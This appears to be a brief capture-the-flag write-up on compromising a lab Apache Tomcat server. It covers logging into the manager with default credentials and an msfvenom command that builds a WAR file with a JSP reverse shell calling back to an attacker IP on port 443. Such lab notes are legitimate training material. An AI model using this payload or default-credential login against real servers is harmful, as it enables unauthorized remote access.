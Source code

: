  Summary
- Takeaways:
	- `dir` and `type` are the equivalents of `ls` and `cat` when in a `cmd.exe` shell without any `powershell` functionality
- User: able to log in to Tomcat with default credentials and upload a malicious WAR to get RCE
- Root: see above

# Details
### User
- scan reveals only port 8080 is open and is hosting an `Apache Tomcat` instance
- doesn't seem to be an obvious vulnerability, but it's possible to login to the "Tomcat Web Application Manager" with default credentials `tomcat:s3cre3t`
- once you have access to the application manager, you can construct and upload a malicious WAR file that executes a reverse shell as `root`
	- `msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.114 LPORT=443 -f war -o rshell.war`
- https://book.hacktricks.xyz/pentesting/pentesting-web/tomcat

### Root
- see above
